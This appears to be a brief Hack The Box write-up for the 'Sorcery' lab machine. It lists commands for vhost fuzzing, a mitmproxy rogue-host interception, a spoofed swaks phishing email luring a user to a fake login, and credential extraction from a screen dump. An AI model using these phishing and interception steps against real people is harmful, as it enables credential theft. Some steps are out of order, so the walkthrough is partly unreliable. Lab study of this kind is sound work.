 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

```
10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb
```

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

```
git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git
```

Enumerate virtual hosts with `ffuf`:

```
ffuf -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H "Host: FUZZ.sorcery.htb" -mc 200
```

This reveals [git.sorcery.htb](https://git.sorcery.htb); add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

```
sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443
```

Send a phishing email to capture credentials:

```
proxychains4 -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"
```

Extract the captured credentials from the proxied session:

```
magick xwd:Xvfb_screen0 credentials.png
open credentials.png
```

*Screenshots omitted.*

